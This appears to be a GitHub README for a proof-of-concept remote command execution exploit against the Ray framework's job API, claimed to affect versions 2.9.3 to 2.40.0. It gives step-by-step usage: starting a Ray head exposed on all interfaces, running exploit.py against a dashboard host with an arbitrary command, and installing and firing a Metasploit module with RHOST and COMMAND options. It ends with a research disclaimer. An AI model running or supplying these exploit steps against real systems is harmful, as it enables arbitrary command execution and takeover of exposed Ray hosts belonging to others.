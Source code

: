 # PoC for a remote command execution vulnerability in Ray framework

Ray is a high-performance distributed execution engine and an open-source artificial intelligence framework. Anyscale, Inc Ray Ray Versions 2.9.3 to 2.40.0 have a command execution vulnerability, which allows an attacker to execute arbitrary commands and control the host where the framework runs.

# Demo
 open this https://github.com/honysyang/Ray/blob/main/output(compress-video-online.com).mp4

## Usage

First, install Ray:
```bash
pip3 install -U "ray[default]"
```
Then, start Ray:
```bash
ray start --head --dashboard-host=0.0.0.0
```
Run the Python exploit:
```bash
python3 exploit.py --host http://10.0.2.15:8265 --cmd '<cmd>'
```
## Metasploit module
Copy the Ruby file to Metasploit's related folder:
```bash
cp ray_job_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/
```
Launch Metasploit with `msfconsole` and relad modules with `reload_all` if you can't find the added one.
You can select with `use exploit/multi/misc/ray_job_rce`.
Set the necessary options (`RHOST`, `RPORT`, `COMMAND`, etc.) and run the exploit with the command `exploit`.

## Disclaimer
This exploit script has been created solely for research and the development of effective defensive techniques. It is not intended to be used for any malicious or unauthorized activities. The script's author and owner disclaim any responsibility or liability for any misuse or damage caused by this software. Just so you know, users are urged to use this software responsibly and only by applicable laws and regulations. Use responsibly.
